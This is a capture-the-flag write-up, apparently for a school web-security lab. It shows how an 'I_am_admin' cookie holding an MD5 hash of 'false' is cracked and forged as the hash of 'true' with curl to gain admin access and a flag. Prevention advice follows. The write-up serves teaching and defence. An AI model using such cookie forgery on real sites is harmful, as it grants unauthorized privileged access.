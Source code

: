 # Description

By looking at the data storage in the used browser we see that the website uses
a cookie with all sent requests called I_am_admin

```
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
```

# Attack

It appears that the it's value is hashed with md5 according to **https://crackstation.net**.

68934a3e9455fa72420237eb05902327 - false - Possible algorithms: MD5

```
*[main][~/goinfre/projects/darkly/email]$ md5 -s "false"
MD5 ("false") = 68934a3e9455fa72420237eb05902327
*[main][~/goinfre/projects/darkly/email]$ 
```

As we see the hashed value is false means that the user browsing the website is not admin

Let's try and change the value to true and see whats goin to happen.

Using md5 command to hash the value true 

```
*[main][~/goinfre/projects/darkly/email]$ md5 -s "true" 
MD5 ("true") = b326b5062b2f0e69046810717534cb09
*[main][~/goinfre/projects/darkly/email]$ 
```

Now using this value to send a request to any route and see what's going to happen. We are goin to use curl

```
*[main][~/goinfre/projects/darkly/email]$ curl  --cookie "I_am_admin=b326b5062b2f0e69046810717534cb09"  http://10.12.177.91/             
<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3'); </script><!DOCTYPE HTML>
```

# Prevention
	- *Use Stronger Authentication:* MD5 is a weak hashing algorithm that is susceptible to collision attacks. Use stronger and more secure hashing algorithms like SHA-256 or bcrypt to hash sensitive values like authentication tokens.

    - *Salted Hashing:* Implement salted hashing, which involves adding a unique random value (salt) to each hash. This makes it much more difficult for attackers to precompute hashes for common values.

    - *Session Management:* Use proper session management techniques, such as using secure, random session tokens instead of predictable values like "true" or "false".

    - *HttpOnly and Secure Flags:* When setting cookies, use the HttpOnly flag to prevent JavaScript from accessing the cookie and the Secure flag to ensure cookies are only transmitted over secure (HTTPS) connections.

    - *Tokenization and Authorization:* Instead of relying solely on a single cookie value for authentication, use tokenization techniques and proper authorization checks to validate a user's permissions.

    - *Multi-Factor Authentication (MFA):* Implement MFA to add an extra layer of security by requiring users to provide additional information beyond just a cookie or password.

    - *Regular Security Audits:* Conduct regular security audits and vulnerability assessments to identify and address potential security weaknesses.

    - *Educate Developers:* Ensure that your development team is educated about secure coding practices and common vulnerabilities like improper use of authentication tokens.